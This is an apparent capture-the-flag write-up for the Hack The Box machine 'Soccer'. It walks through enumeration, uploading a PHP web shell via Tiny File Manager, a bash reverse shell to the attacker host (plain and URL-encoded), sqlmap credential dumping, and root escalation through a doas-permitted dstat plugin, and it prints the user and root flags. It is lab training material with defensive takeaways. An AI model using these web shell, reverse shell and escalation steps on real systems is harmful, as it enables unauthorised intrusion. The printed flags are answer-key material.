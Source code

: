 # HTB: Soccer

## Engagement Overview

**Target:** Soccer  
**Box IP:** 10.10.11.194    
**Date:** 2025-09-06    
**Attacker Host:** 10.10.14.13  

---

### Objectives

- Obtain initial foothold on the web server.
- Escalate to a user shell and capture `user.txt`.
- Escalate to root and capture `root.txt`.

---

## Service Enumeration

### Nmap

```bash
nmap -sC -sV -oA soccer.init 10.10.11.194
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
9091/tcp open  http
```
- Port 80 redirects to `http://soccer.htb/`
- Gobuster found `/tiny` (Tiny File Manager).

### Directory Brute Force

```bash
gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```
```
/tiny (301)
```

---

## Initial Access

### Web Shell Upload via Tiny File Manager

shell.php:

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
# Uploaded shell.php in /tiny
curl -X POST -F "file=@shell.php" http://soccer.htb/tiny/uploads/
```

Burp suite repeater requst change to post:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/9091 0>&1'

# encode with ^u

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.13%3a9091+0>%261'
```

Triggered shell:

```bash
nc -lvnp 9091
# Then accessed http://soccer.htb/tiny/uploads/shell.php
```

Upgraded TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg


export TERM=xterm
```

### Local Service Recon
```bash
ss -ltnp
```
```
127.0.0.1:3306  (MySQL)
127.0.0.1:3000  (Node/Express)
0.0.0.0:80      (nginx)
```

### Nginx vhosts
```
soccer.htb  → nginx root
soc-player.soccer.htb  → proxy to localhost:3000
```

---

## SQL Injection → Credential Extraction

### Identifying Injection
During browsing of `soc-player.soccer.htb`, ticket request form was tested. Using **BurpSuite**, intercepted requests showed injectable parameters.

### Verifying Injection
```bash
sqlmap -r login.req --batch --dbs
```
```
available databases [2]:
[*] information_schema
[*] soccer_db
```

### Extracting Tables & Data
```bash
sqlmap -r login.req -D soccer_db --tables
sqlmap -r login.req -D soccer_db -T users --dump
```
```
+----+----------+-------------------+
| id | user     | password          |
+----+----------+-------------------+
| 1  | player   | PlayerPass123!    |
+----+----------+-------------------+
```

This provided valid credentials for SSH.

---

## User Access

### SSH as Player
Recovered `player` credentials from app configs and logged in:
```bash
ssh player@10.10.11.194
```

Captured user flag:
```bash
cat user.txt
a92099f7e4ca0b2f7d73233c1ffe65bf
```

---

## Privilege Escalation

### Misconfigured `doas` Rule
```bash
cat /usr/local/etc/doas.conf
```
```
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat Plugin Path
```bash
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
doas /usr/bin/dstat --exploit
```

Got root shell:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

Captured root flag:
```bash
cat /root/root.txt
46001e33362eb61261de64adff98cafc
```

---

## House Cleaning
- Removed `shell.php` from `/var/www/html/tiny/uploads/`
- Deleted malicious plugin `/usr/local/share/dstat/dstat_exploit.py`

---

## Tools Utilized
- `nmap`, `gobuster`, `curl`
- `netcat`, `python3` pty for TTY
- `doas`, `dstat` (abused for escalation)

---

## Key Takeaways
- **Tiny File Manager** upload function allowed arbitrary PHP upload → foothold.
- **doas misconfiguration** enabled root execution of `dstat`; unsafe due to plugin loading.
- Defense should restrict access to admin panels, disable PHP execution in uploads, and audit privilege escalation configs.
